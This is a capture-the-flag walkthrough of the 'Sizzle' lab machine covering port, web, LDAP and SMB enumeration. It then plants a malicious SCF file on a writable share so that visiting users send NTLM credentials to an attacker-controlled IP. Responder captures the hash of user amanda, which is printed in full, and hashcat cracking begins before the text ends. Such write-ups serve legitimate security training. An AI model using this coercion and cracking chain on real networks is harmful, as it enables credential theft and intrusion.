

# Sizzle
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.103 --min-rate 5000                                                      
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-06 03:19 BST
Nmap scan report for 10.10.10.103 (10.10.10.103)
Host is up (0.11s latency).
Not shown: 65506 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
5986/tcp  open  wsmans
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49677/tcp open  unknown
49688/tcp open  unknown
49689/tcp open  unknown
49691/tcp open  unknown
49694/tcp open  unknown
49699/tcp open  unknown
49708/tcp open  unknown
49714/tcp open  unknown

```
```
└─$ nmap -Pn -p21,53,80,135,139,443,445,464,593,636,3268,3269,5985,5986,9389,47001 -sC -sV 10.10.10.103 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-06 03:19 BST
Nmap scan report for 10.10.10.103 (10.10.10.103)
Host is up (0.10s latency).

PORT      STATE    SERVICE          VERSION
21/tcp    open     ftp              Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open     domain           Simple DNS Plus
80/tcp    open     http             Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open     msrpc            Microsoft Windows RPC
139/tcp   open     netbios-ssn      Microsoft Windows netbios-ssn
443/tcp   open     ssl/http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: 2023-10-05T19:21:25+00:00; -7h00m01s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
| tls-alpn: 
|   h2
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   filtered http-rpc-epmap
636/tcp   filtered ldapssl
3268/tcp  filtered globalcatLDAP
3269/tcp  filtered globalcatLDAPssl
5985/tcp  filtered wsman
5986/tcp  open     ssl/http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-10-05T19:21:25+00:00; -7h00m01s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2018-07-02T20:26:23
|_Not valid after:  2019-07-02T20:26:23
| tls-alpn: 
|   h2
|_  http/1.1
9389/tcp  open     mc-nmf           .NET Message Framing
47001/tcp filtered winrm
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -7h00m00s, deviation: 0s, median: -7h00m01s
| smb2-time: 
|   date: 2023-10-05T19:20:48
|_  start_date: 2023-10-05T19:16:02
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.35 seconds

```

- `ftp`
```
└─$ ftp anonymous@10.10.10.103
Connected to 10.10.10.103.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||56265|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> 
```

- Web Server



- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.103/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x asp,aspx,txt,html -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.103/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 60]
/images               (Status: 301) [Size: 150] [--> http://10.10.10.103/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.10.103/Images/]
/Index.html           (Status: 200) [Size: 60]
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.10.103/IMAGES/]
/INDEX.html           (Status: 200) [Size: 60]
/*checkout*.aspx      (Status: 400) [Size: 3420]
/*checkout*           (Status: 400) [Size: 3420]

```

- Lesson learned, we also have to `gobuster` with `IIS` focused list
```
└─$ gobuster dir -u http://10.10.10.103/ -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -x asp,aspx,txt,html -t 50 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.103/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client/       (Status: 403) [Size: 1233]
/certenroll/          (Status: 403) [Size: 1233]
/certsrv/             (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll.aspx (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll.txt (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll.html (Status: 401) [Size: 1293]
/certsrv/mscep_admin  (Status: 401) [Size: 1293]
/certsrv/.html        (Status: 401) [Size: 1293]
/certsrv/.txt         (Status: 401) [Size: 1293]
/certsrv/.asp         (Status: 401) [Size: 1293]
/certsrv/.aspx        (Status: 401) [Size: 1293]
/certsrv/mscep_admin.html (Status: 401) [Size: 1293]
/certsrv/mscep_admin.txt (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll.asp (Status: 401) [Size: 1293]
/certsrv/mscep_admin.asp (Status: 401) [Size: 1293]
/certsrv/mscep_admin.aspx (Status: 401) [Size: 1293]
/images/              (Status: 403) [Size: 1233]

```

- `ldapsearch`
```
└─$ ldapsearch -H ldap://10.10.10.103 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=HTB,DC=LOCAL
namingContexts: CN=Configuration,DC=HTB,DC=LOCAL
namingContexts: CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
namingContexts: DC=DomainDnsZones,DC=HTB,DC=LOCAL
namingContexts: DC=ForestDnsZones,DC=HTB,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
```
└─$ ldapsearch -H ldap://10.10.10.103 -x -b "DC=HTB,DC=LOCAL"                      
# extended LDIF
#
# LDAPv3
# base <DC=HTB,DC=LOCAL> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839

# numResponses: 1

```

- `smb`
```
└─$ smbclient -N -L //10.10.10.103                                                              

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        CertEnroll      Disk      Active Directory Certificate Services share
        Department Shares Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Operations      Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.103 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
- I can only access `Department Shares`
```
└─$ smbclient "//10.10.10.103/Department Shares"
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul  3 16:22:32 2018
  ..                                  D        0  Tue Jul  3 16:22:32 2018
  Accounting                          D        0  Mon Jul  2 20:21:43 2018
  Audit                               D        0  Mon Jul  2 20:14:28 2018
  Banking                             D        0  Tue Jul  3 16:22:39 2018
  CEO_protected                       D        0  Mon Jul  2 20:15:01 2018
  Devops                              D        0  Mon Jul  2 20:19:33 2018
  Finance                             D        0  Mon Jul  2 20:11:57 2018
  HR                                  D        0  Mon Jul  2 20:16:11 2018
  Infosec                             D        0  Mon Jul  2 20:14:24 2018
  Infrastructure                      D        0  Mon Jul  2 20:13:59 2018
  IT                                  D        0  Mon Jul  2 20:12:04 2018
  Legal                               D        0  Mon Jul  2 20:12:09 2018
  M&A                                 D        0  Mon Jul  2 20:15:25 2018
  Marketing                           D        0  Mon Jul  2 20:14:43 2018
  R&D                                 D        0  Mon Jul  2 20:11:47 2018
  Sales                               D        0  Mon Jul  2 20:14:37 2018
  Security                            D        0  Mon Jul  2 20:21:47 2018
  Tax                                 D        0  Mon Jul  2 20:16:54 2018
  Users                               D        0  Tue Jul 10 22:39:32 2018
  ZZ_ARCHIVE                          D        0  Mon Jul  2 20:32:58 2018

                7779839 blocks of size 4096. 3559060 blocks available
```

## Foothold
- I'll mount the share and download the content
```
└─$ sudo mount -t cifs "//10.10.10.103/Department Shares" /mnt/smb 
[sudo] password for kali: 
Password for root@//10.10.10.103/Department Shares:
```
```
└─$ ls /mnt/smb                          
 Accounting   Audit   Banking   CEO_protected   Devops   Finance   HR   Infosec   Infrastructure   IT   Legal  'M&A'   Marketing  'R&D'   Sales   Security   Tax   Users   ZZ_ARCHIVE
```
- Nothing interesting inside
```
└─$ tree .     
.
├── Accounting
├── Audit
├── Banking
│   └── Offshore
│       ├── Clients
│       ├── Data
│       ├── Dev
│       ├── Plans
│       └── Sites
├── CEO_protected
├── Devops
├── Finance
├── HR
│   ├── Benefits
│   ├── Corporate Events
│   ├── New Hire Documents
│   ├── Payroll
│   └── Policies
├── Infosec
├── Infrastructure
├── IT
├── Legal
├── M&A
├── Marketing
├── R&D
├── Sales
├── Security
├── Tax
│   ├── 2010
│   ├── 2011
│   ├── 2012
│   ├── 2013
│   ├── 2014
│   ├── 2015
│   ├── 2016
│   ├── 2017
│   └── 2018
├── Users
│   ├── amanda
│   ├── amanda_adm
│   ├── bill
│   ├── bob
│   ├── chris
│   ├── henry
│   ├── joe
│   ├── jose
│   ├── lkys37en
│   ├── morgan
│   ├── mrb3n
│   └── Public
└── ZZ_ARCHIVE
    ├── AddComplete.pptx
    ├── AddMerge.ram
    ├── ConfirmUnprotect.doc
    ├── ConvertFromInvoke.mov
    ├── ConvertJoin.docx
    ├── CopyPublish.ogg
    ├── DebugMove.mpg
    ├── DebugSelect.mpg
    ├── DebugUse.pptx
    ├── DisconnectApprove.ogg
    ├── DisconnectDebug.mpeg2
    ├── EditCompress.xls
    ├── EditMount.doc
    ├── EditSuspend.mp3
    ├── EnableAdd.pptx
    ├── EnablePing.mov
    ├── EnableSend.ppt
    ├── EnterMerge.mpeg
    ├── ExitEnter.mpg
    ├── ExportEdit.ogg
    ├── GetOptimize.pdf
    ├── GroupSend.rm
    ├── HideExpand.rm
    ├── InstallWait.pptx
    ├── JoinEnable.ram
    ├── LimitInstall.doc
    ├── LimitStep.ppt
    ├── MergeBlock.mp3
    ├── MountClear.mpeg2
    ├── MoveUninstall.docx
    ├── NewInitialize.doc
    ├── OutConnect.mpeg2
    ├── PingGet.dot
    ├── ReceiveInvoke.mpeg2
    ├── RemoveEnter.mpeg3
    ├── RemoveRestart.mpeg
    ├── RequestJoin.mpeg2
    ├── RequestOpen.ogg
    ├── ResetCompare.avi
    ├── ResetUninstall.mpeg
    ├── ResumeCompare.doc
    ├── SelectPop.ogg
    ├── SuspendWatch.mp4
    ├── SwitchConvertFrom.mpg
    ├── UndoPing.rm
    ├── UninstallExpand.mp3
    ├── UnpublishSplit.ppt
    ├── UnregisterPing.pptx
    ├── UpdateRead.mpeg
    ├── WaitRevoke.pptx
    └── WriteUninstall.mp3

52 directories, 51 files

```

- We can check smb permissions
```
Accounting
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Audit
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Banking
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
CEO_protected
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Devops
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Finance
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
HR
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Infosec
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Infrastructure
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
IT
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Legal
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
M&A
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Marketing
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
R&D
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Sales
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Security
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Tax
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Users
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/0x0/READ
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
ZZ_ARCHIVE
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL

```
```
└─$ for i in $(ls); do (echo $i; smbcacls -N '//10.10.10.103/Department Shares' Users/$i); done 
amanda
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
amanda_adm
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
bill
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
bob
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
chris
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
henry
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
joe
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
jose
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
lkys37en
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
morgan
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
mrb3n
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Public
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
```

- We have a `full` permissions on `Public`
  - We can try placing `scf` file
```
[Shell]
Command=2
IconFile=\\10.10.16.9\anything
```
```
└─$ smbclient "//10.10.10.103/Department Shares"
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> cd Users
smb: \Users\> cd Public\
smb: \Users\Public\> put desktop.scf
putting file desktop.scf as \Users\Public\desktop.scf (0.0 kb/s) (average 0.0 kb/s)
smb: \Users\Public\> ls
  .                                   D        0  Fri Oct  6 18:38:02 2023
  ..                                  D        0  Fri Oct  6 18:38:02 2023
  desktop.scf                         A       50  Fri Oct  6 18:38:02 2023

                7779839 blocks of size 4096. 3558488 blocks available
```

- After few minutes `responder` receives a hash
```
└─$ sudo responder -I tun0    
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0
...
[SMB] NTLMv2-SSP Client   : 10.10.10.103
[SMB] NTLMv2-SSP Username : HTB\amanda
[SMB] NTLMv2-SSP Hash     : amanda::HTB:b675715c5499593c:FFD2BBFCC28DC7D3CEFF1F0841376996:010100000000000080AC78D583F8D90170E74450E59B13B400000000020008004A004D004E00360001001E00570049004E002D0050005100380053004200320033005000490052004A0004003400570049004E002D0050005100380053004200320033005000490052004A002E004A004D004E0036002E004C004F00430041004C00030014004A004D004E0036002E004C004F00430041004C00050014004A004D004E0036002E004C004F00430041004C000700080080AC78D583F8D90106000400020000000800300030000000000000000100000000200000AADDC6CF9EC13F9A82B5C282A14AA8FBCE7DDBBD58FF57D644C90A4B93B67EBA0A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310036002E003900000000000000000000000000                        
```

- Let's crack it
```
└─$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-12th Gen Intel(R) Core(TM) i5-12400, 1435/2934 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
...
